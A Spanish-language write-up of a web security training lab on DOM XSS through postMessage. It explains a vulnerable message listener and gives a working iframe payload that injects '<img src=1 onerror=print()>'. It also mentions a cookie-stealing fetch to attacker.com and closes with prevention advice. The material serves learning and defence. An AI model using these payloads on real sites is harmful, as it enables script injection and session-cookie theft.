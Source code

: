 ```yaml
---
layout: default
title: 1 - DOM XSS using web messages
---
```

`window.addEventListener('message', function(e) {
`document.getElementById('ads').innerHTML = e.data;
`})`

El código que has compartido añade un *event listener* al objeto `window` para escuchar el evento `'message'`. Este evento se dispara cuando se recibe un mensaje desde otra ventana, un `iframe`, o un script en otro dominio (usando la API `postMessage`).

### Desglose del código:

1. **`window.addEventListener('message', function(e) { ... })`**:
   - Este fragmento agrega un "escuchador" para el evento `message` en el objeto `window`.
   - El evento `message` se activa cuando un script envía un mensaje al documento utilizando `window.postMessage()`.

2. **`function(e) { ... }`**:
   - Es una función anónima que se ejecuta cada vez que se recibe un mensaje. El parámetro `e` es el objeto del evento, que contiene datos relevantes sobre el mensaje recibido.

3. **`document.getElementById('ads').innerHTML = e.data;`**:
   - Este código actualiza el contenido HTML del elemento con el ID `'ads'` en el documento.
   - La propiedad `e.data` contiene los datos enviados por el remitente del mensaje. Estos datos se insertan directamente en el HTML del elemento.


==El siguiente código envía un post message, como la página está escuchando lo incrustará en ads sin sanitización y si  filtrado de urls origen==


`<iframe src="https://0aac00e603759fe580288a3400c1008f.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">


El código que has compartido intenta explotar una vulnerabilidad de tipo Cross-Site Scripting (XSS) utilizando un iframe que carga una URL externa y envía un mensaje malicioso mediante la API `postMessage`. Aquí está el desglose de lo que está haciendo:

### Explicación del Código:

```html
<iframe src="https://0aac00e603759fe580288a3400c1008f.web-security-academy.net/" 
        onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
</iframe>
```

1. **`<iframe src="...">`**:
   - Crea un iframe que carga la URL `https://0aac00e603759fe580288a3400c1008f.web-security-academy.net/`. Un iframe permite incrustar otra página web dentro de la actual.

2. **`onload="this.contentWindow.postMessage(...)"`**:
   - El atributo `onload` se activa cuando el contenido del iframe ha terminado de cargarse.
   - `this.contentWindow` se refiere al objeto `window` de la página cargada dentro del iframe.
   - `postMessage('<img src=1 onerror=print()>', '*')` envía un mensaje al contenido del iframe. Este mensaje contiene un payload malicioso: `'<img src=1 onerror=print()>'`.

3. **El Payload**:
   - El payload `'<img src=1 onerror=print()>'` es un intento de inyectar código JavaScript que se ejecutará cuando ocurra un error en la carga de la imagen (porque la URL `src=1` no es válida).
   - `onerror=print()` es el código que se ejecuta cuando falla la carga de la imagen. `print()` es una función que en algunos navegadores puede abrir el cuadro de diálogo de impresión, pero en un escenario real, este atributo podría ser reemplazado por cualquier código malicioso, como `alert(document.cookie)` o `fetch('http://attacker.com/?data='+document.cookie)` para exfiltrar cookies.

### Condiciones para la Explotación:

- **Aceptación del Mensaje**: La página cargada dentro del iframe debe tener un `message` event listener que acepte y procese el mensaje sin validar correctamente el contenido. Esto significa que, en su código JavaScript, debe haber algo similar a `window.addEventListener('message', function(e) { document.body.innerHTML = e.data; });`, que inserta directamente el contenido del mensaje en el DOM.
  
- **Permitir ejecución de código**: Si la página inserta el contenido del mensaje en el DOM sin sanitización, entonces se ejecutará el código malicioso (`onerror=print()` en este caso).

### Riesgos:

Si el sitio vulnerable no valida correctamente los mensajes que recibe a través de `postMessage`, este código podría resultar en la ejecución de scripts arbitrarios, lo que llevaría a un ataque de Cross-Site Scripting (XSS).

### Prevención:

- **Sanitización y validación**: La página dentro del iframe debe asegurarse de validar y sanitizar cualquier mensaje recibido a través de `postMessage` para prevenir la inyección de código malicioso.
  
- **Uso seguro de `postMessage`**: Limitar el origen de los mensajes a dominios de confianza utilizando `e.origin` en lugar de aceptar mensajes de cualquier origen (`'*'`).
